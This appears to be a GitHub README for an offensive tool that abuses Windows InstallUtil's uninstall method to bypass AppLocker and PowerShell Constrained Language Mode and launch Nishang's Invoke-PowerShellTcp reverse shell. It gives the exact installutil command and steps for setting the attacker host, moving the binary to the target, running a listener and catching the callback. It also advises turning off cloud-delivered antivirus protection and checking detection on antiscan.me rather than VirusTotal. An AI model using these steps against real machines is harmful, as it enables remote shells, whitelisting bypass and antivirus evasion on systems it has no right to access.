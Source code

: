 ## Bypass for Applocker and Powershell Constrained Language Mode via InstallUtil Uninstaller Method to run Nishang Invoke-PowerShellTcp.ps1

----


## Usage

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
			
	Steps
	
		1)Build the project after changing the ip (lhost , ip youre serving the shellcode from) and script name ("damn" , change the name to name of your Invoke-PowerShellTcp.ps1 instance )
		2)Transfer the build exe to the rhost 
		3)run the listener on lhost to the configured port on Invoke-PowerShellTcp.ps1 instance
		3)Run the executable using InstallUtil -  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe  /LogToConsole=true /U C:\Users\root\Desktop\installdamn.exe
		4)Check on the lhost http server for a call back and your listener		
						
```

## Compile Instructions

This Project  has been built against .NET 4.0 x64 and is compatible with [Visual Studio 2019 Community Edition]. Simply open up the project .sln, choose "release", and build before the required changes
.

## Notes
* when testing on a windows machine , disable the "Cloud Delivered Protection" , Off
* Use https://antiscan.me/ instead of virus total if you wanna validate the signatures

## Shout Out

[nikhil_mitt](https://twitter.com/nikhil_mitt)

* https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1




